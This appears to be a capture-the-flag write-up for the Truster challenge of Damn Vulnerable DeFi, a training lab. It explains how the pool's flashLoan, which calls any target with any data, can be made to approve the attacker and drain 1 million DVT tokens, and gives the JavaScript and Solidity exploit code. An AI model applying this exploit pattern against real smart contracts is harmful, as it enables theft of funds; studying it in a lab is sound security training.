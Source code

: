 # Damn Vulnerable DeFi — Challenge #3 (Truster) Summary

The challenge aims to drain the pool and transfer 1 million DVT tokens to the attacker. The vulnerability lies in the Truster contract's flashLoan function, which allows borrowing tokens for free and can call any contract with any variables, leading to potential exploitation.

The exploit involves creating a smart contract that uses the lender pool's insufficient token verification to gain approval for spending tokens from the pool.

```javascript
// Create the ABI to approve the attacker to spend the tokens in the pool
const abi = ["function approve(address spender, uint256 amount)"];
const iface = new ethers.utils.Interface(abi);
const data = iface.encodeFunctionData("approve", [
  player.address,
  TOKENS_IN_POOL,
]);

await attackContract.attack(amount, borrower, target, data);
```

```solidity

    function attack(
        uint256 amount,
        address borrower,
        address target,
        bytes calldata data
    ) external {
        trust.flashLoan(amount, borrower, target, data);
    }
```

By calling the flash loan and approving the smart contract address, the attacker can transfer tokens to their address.
